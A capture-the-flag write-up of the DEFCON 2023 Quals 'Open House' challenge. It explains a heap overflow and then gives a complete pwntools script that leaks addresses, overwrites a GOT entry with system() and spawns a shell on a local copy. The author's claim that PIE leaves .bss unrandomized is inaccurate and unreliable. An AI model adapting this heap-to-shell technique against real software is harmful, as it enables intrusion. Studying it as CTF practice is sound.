 # Open House (DEFCON CTF 2023 Qualifiers)

Description
```
You are cordially invited to an exclusive Open House event, where dreams meet reality and possibilities abound.
Join us for an unforgettable experience as we showcase a captivating array of properties, each waiting to become your dream home.

Host: open-house-6dvpeatmylgze.shellweplayaga.me
Port: 10001
```
Category - Quals  
Points - 64  

This is the easiest binary challenge in DEFCON CTF 2023 Quals. I worked hard on this one but didn't get it.
I found that there is heap overflow due to the modify function, and we can use it to overwrite the GOT table, but didn't know how.

## Warning

The solution here is not a complete solution since I'm running the program on my own machine, instead of attacking a remote host.

## Analysis

The program shows reviews and allows us to create (c), delete (d), modify (m), or view (v) the entries.
By default there are 10 reviews. We can type q to quit.

```
Welcome! Step right in and discover our hidden gem! You'll *love* the pool.
c|v|q> c
Absolutely, we'd love to have your review!
test
Thanks!
c|v|m|d|q> v
Check out these recent rave reviews from other prospective homebuyers:
**** - This charming and cozy house exudes a delightful charm that will make you feel right at home. Its warm and inviting ambiance creates a comforting haven to retreat to after a long day's hard work.
**** - Don't let its unassuming exterior fool you; this house is a hidden gem. With its affordable price tag, it presents an excellent opportunity for first-time homebuyers or those seeking a strong investment.
**** - Step into this well-maintained house, and you'll find a tranquil retreat awaiting you. From its tidy interior to the carefully tended garden, every corner of this home reflects the care and attention bestowed upon it.
**** - Situated in a prime location, this house offers unparalleled convenience. Enjoy easy access to schools, shops, and public transportation, making everyday tasks a breeze.
**** - Although not extravagant, this house offers a blank canvas for your creativity and personal touch. Imagine the endless possibilities of transforming this cozy abode into your dream home, perfectly tailored to your taste and style.
**** - Discover the subtle surprises that this house holds. From a charming reading nook tucked away by the window to a tranquil backyard oasis, this home is full of delightful features that will bring joy to your everyday life.
**** - Embrace a strong sense of community in this neighborhood, where friendly neighbors become extended family. Forge lasting friendships and create a sense of belonging in this warm and welcoming environment.
**** - With its well-kept condition, this house minimizes the hassle of maintenance, allowing you to spend more time doing the things you love. Move in with peace of mind, knowing that this home has been diligently cared for.
**** - Whether you're looking to expand your investment portfolio or start your real estate journey, this house presents a fantastic opportunity. Its affordability and potential for future value appreciation make it a smart choice for savvy buyers.
**** - Escape the hustle and bustle of everyday life and find solace in the tranquility of this home. Its peaceful ambiance and comfortable layout provide a sanctuary where you can relax, recharge, and create beautiful memories with loved ones.
**** - test

c|v|m|d|q> q
Thanks for stopping by!
```

The reviews are stored in the heap, as a doubly-linked list. Each review has a body with a length of 0x200, with two pointers following
(first one is forward pointer, pointing to the next entry, second one is the back pointer, pointing to the last), so the total length is 0x208.

I found two vulnerabilities. First, the strncpy function is used to create review entries.
But if the string to be loaded is too large, the string loaded into memory will not be null terminated.
Second, the modify function allows us to modify up to a length of 0x210, meaning that we can easily overwrite the pointers.

## Solution

I come up with the solution below only after reading the answers by the others, so I would like to give credit to them here:
https://robbert1978.github.io/posts/OpenHouse-DEFCON-Quals-2023/  
https://scavengersecurity.com/posts/defconquals-openhouse/

If we create an overflowed entry, the body of the review will not be null terminated, so when we view it, we can read beyond the body,
and see the pointers. This leaks the address in the heap.
However, the program enabled PIE, so address in the heap is randomized.
Nevertheless, there is a hidden 0th entry, which resides in the .bss segment instead of heap.
By deleting all entries and create an overflowed entry, we can read the bk pointer pointing to the 0th entry (in .bss).

The .bss segment is not randomized, like most of the memories space. (PIE only randomized certain segments, such as the heap)
Therefore, we can calculate the address of the GOT table.
The GOT table (Global Offset Table) contains pointers to libc functions.
We can read it by first modifying the 1st entry's forward pointer, then when the program tries to read the 2nd entry,
it will find the 2nd entry through the 1st entry's forward pointer, and land at wherever we want.
Similarly we can modify any memory, but modifying the 1st entry's forward pointer and then modifying the 2nd entry (which is any memory we like).

Therefore, we can read the address of an libc function in the GOT table, calculate the address of system() in libc,
then find a suitable libc function to be replaced by system().
The address of system() can always be calculated if you know the libc version and the address of any libc function.
The libc version can also be deduced by the address of one, or some, libc functions, using libc databases like https://libc.blukat.me/ .
To replace the function with system(), we modify the GOT entry of that function with the address of system().

Here is the python script I used to get a shell

```
from pwn import *

def create(data):
    p.sendlineafter(b"c|v",b"c",timeout=10)
    p.sendline(data)

def modify(idx,data):
    p.sendlineafter(b"c|v",b"m",timeout=10)
    p.sendline(idx)
    p.sendline(data)

def view():
    p.sendlineafter(b"c|v",b"v",timeout=10)

def delete(idx):
    p.sendlineafter(b"c|v",b"d",timeout=10)
    p.sendline(idx)

# Initialize
libc = ELF("/lib32/libc.so.6")
e = ELF("./open-house")
p = e.process()

# We have to create an entry in order to unlock all functionalities
create(b"test")

# Delete all entries
for i in range(11):
    delete(b"1")

# Create an entry with overflowing "A"s.
# Due to the behaviour of strncpy, a string without null termination is loaded into the heap.
# Then we create one more entry so that the fwd pointer of the 1st entry is not null.
# This will leak the pointers of the 1st entry when we view it.
create(b"A"*520)
create(b"something")

# We view it and read the pointers.
# The first pointer is the fwd pointer, pointing to the next entry.
# The second pointer is the bk pointer, pointing to the last entry.
# In this case, bk points to the 0th entry, which is at .bss segment.
view()
test = p.recvuntil(b"A"*512,timeout=10)
fwd = p.recv(4,timeout=10)
bk = p.recv(4,timeout=10)
print("The pointer to the 0th entry at .bss:")
print(bk)

# .bss is outside the heap, so its address is not randomized.
# We can use this address as an anchor to find the addresses of the other stuff.
# In particular, we are interested in the GOT table, where pointers to libc functions are stored.
#
# Below is some references:
# fputs@got.plt is at bk-0x10, it contains the address of fputs@libc
# strlen@got.plt is at bk-0x24, it contains the address of strlen@libc
got_fputs_addr = p32(u32(bk) - u8(b"\x10"))
got_strlen_addr = p32(u32(bk) - u8(b"\x24"))
print("The calculated address of fputs@got.plt:")
print(got_fputs_addr)
print("The calculated address of strlen@got.plt:")
print(got_strlen_addr)

# Modify the fwd pointer of the 1st entry, and point it to fputs@got.plt, so that we can read its content
modify(b"1",b"B"*512+got_fputs_addr+b"\x00"*4)

# View the entries and read the pointer (address) to fputs@libc
view()
p.recvuntil(b"B"*512,timeout=10)
p.recvline(timeout=10)  #leakage of the address you put in
p.recvuntil(b"**** - ",timeout=10)
libc_leak = p.recv(4,timeout=10) #the address of fputs@libc
print("The leaked address of fputs@libc:")
print(libc_leak)

# Calculate the address of system@libc, which will allow us to spawn a terminal.
# Here we know the version of libc so we don't need to search for the libc version.
system_addr = p32(u32(libc_leak) - libc.sym.fputs + libc.sym.system)
print("The calculated address of system@libc:")
print(system_addr)

# Modify the fwd pointer of the 1st entry to strlen@got.plt,
# and then modify the 2nd entry (now it's strlen@got.plt) to system@libc, so that strlen@got.plt points to system@libc.
# Lastly, create a new entry with "/bin/sh" as the content, to trigger strlen("/bin/sh"), which now becomes system("/bin/sh")
modify(b"1",b"B"*512+got_strlen_addr+b"\x00"*4)
modify(b"2",system_addr)
create(b"/bin/sh")

# Enjoy!
p.interactive()
```

Note that the code only works locally, because I'm working on it after the end of the competition.
According to the references, however, the libc version of the remote host is probably not found in many libc databases.
So the solution here is considerably easier than what is needed actually if you are unable to figure out the libc version.

Final notes:  
I didn't make it clear how to find the address of the GOT or of system().
To put it simple, you can get the memory map and find the GOT address by debugging the program with gdb.
The offsets works even in a remote host, because they're fixed (but not for the heap becuz of randomization).
To find system() address, we need to know the libc version first.
The offsets to a particular function is fixed for a given libc version.
So if you know the libc version and address to any one function, you know the address of system() relative to the function.
